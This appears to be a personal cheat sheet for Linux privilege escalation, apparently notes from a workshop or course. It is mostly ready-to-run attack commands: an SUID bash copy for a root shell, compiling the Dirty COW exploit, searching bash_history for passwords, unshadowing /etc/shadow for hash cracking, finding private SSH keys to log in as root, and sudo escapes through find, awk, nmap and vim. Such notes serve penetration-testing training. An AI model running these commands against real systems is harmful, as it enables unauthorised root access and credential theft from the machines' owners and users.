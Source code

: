 https://github.com/sagishahar/lpeworkshop
http://udemy.com/course/linux-privilege-escalation-for-beginners
https://github.com/mzet-/linux-exploit-suggester


if can create suid file through cron job or python or whatever can use:

cp /bin/bash /tmp/bash && chmod +s /tmp/bash 

then run with /tmp/bash -p 


check config files for passwords and username
check bash_history for passwords and usernames entered
check file permissions
check for ssh keys

#######################################################################

run linux-exploit-suggester.sh
vulnerable to dirty cow
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
check sudo

#######################################################################

cat ~/.bash_history | grep -i passw

#######################################################################

ls -la /etc/shadow : check file permissions for shadow
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt

#######################################################################

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null

chmod 400 id_rsa
ssh -i id_rsa root@<ip>

#######################################################################
(shell escaping)
1. In command prompt type: sudo -l
2. From the output, notice the list of programs that can run via sudo.

1. In command prompt type any of the following:
a. sudo find /bin -name nano -exec /bin/sh \;
b. sudo awk 'BEGIN {system("/bin/sh")}'
c. echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
d. sudo vim -c '!sh'

 Can also use GTFObins to find exploits for available sudo commands
 
######################################################################
(Abusing Intended Functionality)
type: sudo -l

1. In command prompt type:
sudo apache2 -f /etc/shadow
2. From the output, copy the root hash.

